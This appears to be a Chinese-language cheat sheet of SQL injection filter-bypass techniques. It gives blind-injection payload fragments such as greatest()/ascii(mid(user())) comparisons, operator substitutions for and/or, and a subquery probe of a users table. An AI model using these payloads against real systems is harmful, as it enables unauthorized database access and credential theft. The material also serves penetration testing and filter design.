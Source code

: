 ### 过滤 `>`, `<`

* greatest函数绕过

> greatest(a,b)，返回a和b中较大的那个数

```
# 猜解user()第一个字符的ascii码是否小于等于150时
ascii(mid(user(),1,1)) <= 150
=greatest(ascii(mid(user(),1,1)), 150)=150;
```

* =, !=

枚举爆破绕过

### 过滤select

利用数值计算盲注或时间盲注

```
|| ascii(mid(user(),1,1) ) = 97 %23
```

### 过滤and，or可以使用&&和||

```
过滤：1 or 1 = 1 1 and 1 = 1
绕过：1 || 1 = 1 1 && a = 1

绕过：^, =, !=, %, /, *, &, &&, |, ||, <, >, >>, <<, >=, <=, <>, <=>, XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN, ...
```

### 过滤union

* 子查询盲注

```
过滤：union select user, passwd from users
绕过：1 || (select user from users where user_id = 1) = 'admin'
```

## 过滤单引号

* 字符串转换函数绕过

```
char()
```

* 十六进制数绕过

## 过滤 `=`

* between, like, <, > 绕过
